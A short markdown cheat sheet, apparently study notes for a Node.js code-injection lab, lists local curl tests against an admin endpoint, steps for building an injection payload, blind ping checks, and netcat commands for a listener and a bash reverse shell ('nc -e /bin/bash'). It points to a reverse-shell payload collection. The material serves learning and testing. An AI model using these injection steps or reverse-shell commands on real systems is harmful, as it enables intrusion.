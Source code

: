 # Local Debugging

| **Command**   | **Description**   |
| --------------|-------------------|
| `node server.js` | run server locally |
| `curl http://127.0.0.1:21440/admin -X POST -d '{}'` | curl POST request |
| `curl http://127.0.0.1:21440/admin -X POST -d '{"key":"this is just a test!"}'` | curl POST request with json data |

# Exploitation

| **Code Injection Steps** |
| --------------|
| 1. Prepare the Payload |
| 2. Comment Out the Rest |
| 3. Even Quotes/Parentheses |
| 4. Escaping/Encoding Special Characters |
| 5. Examine Payload |

| **Command**   | **Description**   |
| --------------|-------------------|
| `jq -aR .` | Escape json input |
| `sudo tcpdump -i lo icmp` | Blind verification: Listen for pings |
| `ping -c 3 127.0.0.1` | Blind verification: ping injection test |
| `nc -lvnp 1234` | Remote Shell: start netcat listener |
| `nc -e /bin/bash 127.0.0.1 1234` | Remote Shell: send basic shell |


# Helpful Websites

| **Website** |
| ----------------------------------|
| [Prettier](https://prettier.io/playground/) |
| [Url Encode/Decode](https://www.urlencoder.org/) |
| [Reverse Shells - PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) |